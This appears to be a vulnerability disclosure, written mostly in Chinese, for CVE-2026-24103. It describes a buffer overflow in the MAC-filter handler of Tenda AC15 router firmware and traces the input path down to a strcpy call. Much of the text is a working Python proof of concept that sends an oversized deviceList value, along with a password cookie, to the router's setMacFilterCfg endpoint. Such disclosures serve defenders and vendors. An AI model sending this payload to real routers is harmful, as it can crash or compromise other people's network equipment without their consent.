


# CVE-2026-24103 漏洞信息

## 基础信息
- **CVE编号**: CVE-2026-24103
- **影响组件**: goform/formSetMacFilterCfg
- **固件版本**: Tenda AC15V1.0 V15.03.05.18_multi

## 漏洞详情







sub_2BABC==Webgetvar
In the function formSetMacFilterCfg, user-supplied parameters v17 and v18 are passed to a function without input validation, ultimately leading to an overflow.

formSetMacFilterCfg-》set_macfilter_rules-》set_macfilter_rules_by_one-》parse_macfilter_rule-》strcpy

POC
```
import requests
def send_payload(url, type,list):
    params = {b'macFilterType': type,b'deviceList': list}
    cookie={'password':'ssetgb'}
    response = requests.post(url, cookies=cookie, data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
url="http://192.168.1.1/goform/setMacFilterCfg"
type=b'black'
list="DEADBEEFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\r11"
send_payload(url, type, list)
```
